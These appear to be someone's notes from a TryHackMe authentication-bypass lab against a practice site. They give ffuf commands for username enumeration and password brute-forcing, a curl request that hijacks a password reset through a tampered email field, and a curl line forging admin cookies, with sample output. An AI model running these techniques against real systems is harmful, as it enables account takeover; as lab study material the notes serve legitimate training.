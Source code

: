 
## Username Enumeration

`user@tryhackme$ ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.241.16/customers/signup -mr "username already exists"`
        
returned: 
admin                   [Status: 200, Size: 3720, Words: 992, Lines: 77, Duration: 67ms]
robert                  [Status: 200, Size: 3720, Words: 992, Lines: 77, Duration: 48ms]
simon                   [Status: 200, Size: 3720, Words: 992, Lines: 77, Duration: 56ms]
steve                   [Status: 200, Size: 3720, Words: 992, Lines: 77, Duration: 74ms]


- save names in a file called valid_usernames.txt, then run: 

`ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.241.16/customers/login -fc 200`


## reset password bypass

curl 'http://10.10.241.16/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email={username}@customer.acmeitsupport.thm' 


## set cookies from curl

`curl -H "Cookie: logged_in=true; admin=true" http://10.10.241.16/cookie-test`